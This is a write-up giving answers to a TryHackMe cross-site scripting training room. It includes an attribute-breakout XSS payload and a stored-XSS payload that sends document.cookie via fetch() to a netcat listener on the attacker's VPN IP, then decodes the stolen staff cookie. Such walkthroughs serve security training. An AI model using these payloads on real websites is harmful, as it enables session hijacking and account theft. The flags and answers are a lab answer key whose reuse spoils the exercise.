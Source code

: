 # Solution

## URL
- [Cross-Site Scripting](https://tryhackme.com/room/xss)

## Steps

### Task 1:
#### What does XSS stand for?
1. The answer is `Cross-Site Scripting`.

### Task 2:
#### Which document property could contain the user's session token?
1. The answer is `document.cookie`.

#### Which JavaScript method is often used as a Proof Of Concept?
1. The answer is `alert`.

### Task 3:
#### Where in an URL is a good place to test for reflected XSS?
1. The answer is `parameter`.

### Task 4:
#### How are stored XSS payloads usually stored on a website?
1. The answer is `database`.

### Task 5:
#### What unsafe JavaScript method is good to look for in source code?
1. The answer is `eval()`.

### Task 6:
#### What tool can you use to test for Blind XSS?
1. The answer is `xsshunter`.

#### What type of XSS is very similar to Blind XSS?
1. The answer is `stored xss`.

### Task 7:
#### What is the flag you received from level six?
1. In the challenge our input is inside double quotes in the `src` attribute of image tag.
2. So we need to escape `src` attribute and create an event handler inside image tag to execute JS, like so: `x" onerror="alert('THM')"`.
3. Submit for flag: `THM{XSS_MASTER}`.

### Task 8:
#### What is the value of the staff-session cookie?
1. This task is only possible through attack box.
2. In the attack box run the command `nc -lvnp 8000`.
3. In the application, sign-up and create a ticket with the payload `</textarea><script>fetch('http://<THM-VPN-IP>:8000/?cookies=' + btoa(document.cookie));</script>` inside `Ticket Contents`.
4. In the attack box we will receive a request with a base64 encoded value in `cookies` param, copy that.
5. Run the command: `echo "c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==" | base64 -d` for the decoded staff cookie.
6. Answer: `4AB305E55955197693F01D6F8FD2D321`.